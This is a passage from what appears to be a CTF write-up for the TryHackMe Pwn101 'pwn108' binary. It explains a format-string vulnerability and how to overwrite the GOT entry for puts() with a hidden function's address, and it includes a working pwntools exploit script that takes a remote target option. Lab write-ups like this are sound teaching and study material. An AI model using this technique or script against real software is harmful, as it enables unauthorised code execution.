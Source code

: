 Here we see format string vulnerability.

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2042.png)

Using a format string we overwrite the GOT (Global Offset Table) on a non-PIE binary.

We replace the address of puts() in the GOT with the address of the hidden function holidays().

1. We inject in the first buffer the address of puts() in the GOT
2. We use %<int>s  to make printf()  print <address of holidays()> bytes.
3. With %6$lln we overwrite the address of puts() in the GOT with the address of holidays(). We know the latter because the binary is not a PIE.
    - %6$lln writes the number of bytes written so far for the format string in the variable pointed by the positional parameter. 6 is for using the address stored in the first buffer, which points to puts() in the GOT
    

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn108.pwn108'
binary = context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()

puts_got = binary.got['puts']
holiday = binary.symbols['holidays']

io.recvuntil(b"name]: ")
io.sendline(p64(puts_got))

io.recvuntil(b"No]: ")
io.sendline(b"%" + str(holiday).encode("utf-8") + b"s%6$lln")

io.interactive()
```
